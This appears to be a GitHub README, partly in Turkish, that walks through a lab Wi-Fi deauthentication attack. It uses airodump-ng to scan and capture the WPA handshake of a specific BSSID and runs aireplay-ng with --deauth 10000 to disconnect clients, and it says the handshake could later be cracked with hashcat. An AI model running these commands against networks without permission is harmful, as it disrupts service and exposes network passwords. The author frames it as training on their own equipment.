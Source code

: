 
# Deauthentication (DeAuth) Attack on WPA2 Wi-Fi Networks (for educational)

> **Warning:** This was conducted only for the purpose of **cyber security training** and **testing in laboratory environments**. Unauthorized access to real networks is illegal and a crime. All operations must be performed on your own testing equipment. i did attack to my own wifi connection.

##  Requirements:
- Kali Linux
- `aircrack-ng`  ( `airodump-ng`, `aireplay-ng`)
- `monitor mode`  
---
## Managed Mode
This is the default mode for Wi-Fi devices. It allows you to connect to access points, send and receive your own traffic and it use internet and applications normally.
## Monitor Mode
This is a passive mode used in wireless security testing captures all nearby wireless packets, doesn’t connect to any access point and it useful for analyzing or attacking Wi-Fi networks.

## Switching Between Modes (Linux)
Use airmon-ng to toggle modes:
```bash
# Enable Monitor Mode
airmon-ng start wlan0
```
```bash
# Disable Monitor Mode (return to Managed)
airmon-ng stop wlan0mon
```

##  1. Ağların Taranması (airodump-ng)

İlk adımda, `airodump-ng` aracı ile çevredeki kablosuz ağlar taranmıştır.

```bash
airodump-ng wlan0mon
```

Aşağıda çevredeki ağların tarandığı an:
![airodump-scan](./screenshots/1aa522a9-033a-4300-b1dc-633b7c044aee.png)

---

##  2. Hedef Ağın Seçilmesi

Hedef ağ olarak `FiberHGW_ZT94JH` (BSSID: `C8:98:28:3A:44:77`) seçilmiştir. Bu ağın kanal numarası `9`'dur.

Aşağıdaki komut ile sadece bu ağı ve bağlı istemcileri izlemeye aldık:

```bash
airodump-ng --channel 9 --bssid C8:98:28:3A:44:77 --write airodumptest wlan0mon
```

WPA handshake'in yakalandığı an:
![handshake-capture](./screenshots/7187fb75-42c7-483b-bb05-196a3b31e324.png)

---

##  3. Deauthentication Saldırısı (aireplay-ng)

Handshake yakalayabilmek için ağdan bağlı istemcilerin bağlantısının kesilmesi gerekir. `aireplay-ng` komutu ile bu gerçekleştirilmiştir:

```bash
aireplay-ng --deauth 10000 -a C8:98:28:3A:44:77 wlan0mon
```

Bu komut, hedef ağa (Access Point) bağlı olan istemcileri bağlantı dışı bırakır. Böylece tekrar bağlanmaları sırasında handshake paketi yakalanabilir.

DeAuth saldırısının gönderildiği an:
![deauth-attack](./screenshots/994e3d74-70c1-4fb8-bf66-ae10e3ac0edf.png)

---

## Notlar
- Bu tür saldırılar sadece **bağlantı kurulu cihazlar** varsa işe yarar.
- `EAPOL` paketlerinin görünmesi, WPA handshake'in başarıyla alındığını gösterir.
- WPA handshake verisi daha sonra `aircrack-ng` veya `hashcat` gibi araçlarla kırılmaya çalışılabilir (bu doküman dahilinde değil).

---

## Öneriler
- İşlemleri sanal makine veya fiziksel test ortamlarında yapın.
- `airmon-ng check kill` ile arka plan servislerini kapatın.
- Yalnızca **izinli ağlar** üzerinde çalışın.

---

